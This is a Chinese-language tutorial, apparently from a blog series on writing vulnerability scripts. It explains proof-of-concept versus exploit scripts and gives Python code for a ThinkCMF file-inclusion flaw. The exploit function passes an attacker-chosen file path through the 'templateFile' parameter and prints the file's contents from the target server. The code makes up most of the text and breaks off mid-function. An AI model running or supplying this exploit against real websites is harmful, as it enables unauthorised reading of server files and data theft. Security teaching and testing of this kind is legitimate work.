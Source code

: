 # 1. 前言

通过上一篇文章的了解，应该都了解了`POC`是怎么编写的，而且`POC`和`EXP`的区别就是`POC`只能验证漏洞，简单来说就是通过判断特定的响应值来判断是否存在漏洞，而且`EXP`就需要将响应的内容给返回回来，但是整体在编写的时候基本上都差不多！关于用的模块或者参数除非是前面没了解过的，否则不再进行赘述，请查看前面的文章！

整体来说，当你编写一个`POC`或`EXP`后，后续的编写基本上都是套模板，除非遇到一些很复杂的漏洞，可能需要修改很多内容，否则一般的漏洞基本上就是修改模板。

# 2. `thinkcmf` 文件包含

这里我还是沿用之前的`POC`，在`POC`中添加`EXP`部分，我个人的理解以及在日常使用中写这些验证脚本，很多情况下普遍都是只写一个`EXP`或者`POC`就结束了，相对复杂一点的漏洞很多都是只有`POC`，由于较为复杂的漏洞EXP编写起来会很麻烦，同时不同的情况下也会导致脚本出现异常。

当然这里如果是大佬编写的脚本或代码水平不错的人写出的脚本，相对来说质量更好，并且编写`EXP`可能需要多个环境测试，例如我这里编写的脚本都是基于网站上靶机去编写的，自然可能会遇到在实际的情况中不符的情况，那么就需要不断的更改，很多情况下例如`POC`，是否能够准确的验证出来，取决于返回包的内容是否能够进行判断，至于`URL`，漏洞的`URL`都是固定的，这个没什么疑惑。

这里我直接放置这个文件包含的，整体`POC`及`EXP`，当然你分开也可以，仔细观察这些代码，其实能够看出来，基本上就是一套模板，然后根据返回的响应内容来进行二次判断。

当然我这边的代码其实并不是很周全，比如关于输入的`http`与`https`的校验等等均没有写，这个就属于处理用户输入进来的内容，这部分涉及不到很复杂的内容，自己修改吧！

```python
import argparse
import requests
import sys
import re

import requests


def poc(url, port):
    payload = "/?a=display&templateFile=README.md"
    url1 = f"{url}:{port}{payload}"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1", "Connection": "close"}
    try:
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        if r.status_code == 200 and "ThinkCMF是一款" in r.text:
            print(f"[+]{url}存在Thinkcmf文件包含漏洞")
        else:
            print(f"[-]{url}不存在Thinkcmf文件包含漏洞")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)


def exp(url, port, document):
    payload = f"/?a=display&templateFile={document}"
    url1 = f"{url}:{port}{payload}"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1", "Connection": "close"}
    try:
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        pattern = r"^(.*?)<div id=\"think_page_trace\" style=\"position: fixed;bottom:0;"
        match = re.search(pattern, r.text, re.DOTALL)
        if r.status_code == 200 and match:
            print(match.group(1).strip())
        else:
```